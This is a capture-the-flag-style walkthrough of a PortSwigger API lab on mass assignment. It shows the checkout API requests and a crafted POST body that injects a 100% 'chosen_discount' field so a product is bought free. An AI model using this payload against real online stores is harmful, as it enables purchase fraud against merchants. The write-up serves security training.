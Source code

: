 #+title: Exploiting a mass assignment vulnerability
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]
#+description: API Pentesting Labs from Portswigger
#+date: 2023-12-18 Mon
#+options: toc:2

* Table of Contents :toc:
- [[#lab-contain][Lab contain]]
  - [[#test-account][Test Account]]
- [[#end-goal][End Goal]]
- [[#exploit][Exploit]]

* Lab contain
** Test Account
- username: =wiener=
- password: =peter=
* End Goal
+ Exploit mass assignment vulnerability
+ Buy =Lightweight l33t Leather Jacket= to solve the lab
* Exploit
+ Access the lab
+ Login with test account
+ Add a product to cart
+ Click on Place order although don't have any credit. It will give error =Not enough store credit for this purchase=
+ Now observe these flow from http histroy in burpsuite
+ We found a api point with two http method

#+begin_src json
GET /api/checkout 
#+end_src
It gives the checkout product information
#+begin_src json
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]} 
#+end_src

And a =POST= request

#+begin_src json
POST /api/checkout HTTP/2

{"chosen_products":[{"product_id":"1","quantity":1}]} 
#+end_src

This request checkout the product. Send this request to repeater. Add =chosen_discount= property that we can see from the =GET= request. We will change =percentage= for =chosen_discount= to 100 so that we get 100% discount means we can buy the product absolutely free.

#+begin_src json
  POST /api/checkout HTTP/2  
  
  {
  "chosen_discount":
    {"percentage":100
  },
  "chosen_products":
    [{"product_id":"1","quantity":1}]}
#+end_src

Send this request. Make sure to add target product =Lighweight Leather Jacket=. This will checkout the product with 100% discount. Lab solved

